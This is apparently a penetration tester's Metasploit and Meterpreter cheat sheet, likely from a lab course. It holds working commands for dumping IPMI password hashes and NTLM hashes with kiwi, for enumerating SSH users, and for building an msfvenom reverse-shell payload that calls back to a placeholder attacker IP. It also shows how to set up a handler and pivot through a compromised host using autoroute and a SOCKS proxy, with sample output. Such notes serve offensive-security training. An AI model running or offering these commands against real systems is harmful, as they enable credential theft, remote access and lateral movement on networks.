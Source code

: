# Modules
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
## #SOCKS Proxy
Use Metasploit's `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
```
- Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 <PORT>
```
3. Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```

# Meterpreter
## Dump NTLM hashes
```shell-session
meterpreter> load kiwi
meterpreter> lsa_dump_sam
```
## Port Forwarding
### 1. Using [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/)
1. Create Payload for Ubuntu pivot host
```shell-session
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> -f elf -o backupjob LPORT=8080
```
2. Start a `multi/handler`, also known as a Generic Payload Handler
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
3. Copy binary to Ubuntu pivot host and execute to gain a Meterpreter session
4. Now we can perform enumeration scans through this pivot host
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### 2. Using [[#SOCKS Proxy]]
If host's firewall blocks ICMP, we can perform TCP scan on remoter `172.16.5.0/23` IP range with Nmap. And instead of using SSH for port forwarding we can:
1. Use Metasploit `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
```
2. Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 9050
```
3. Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```
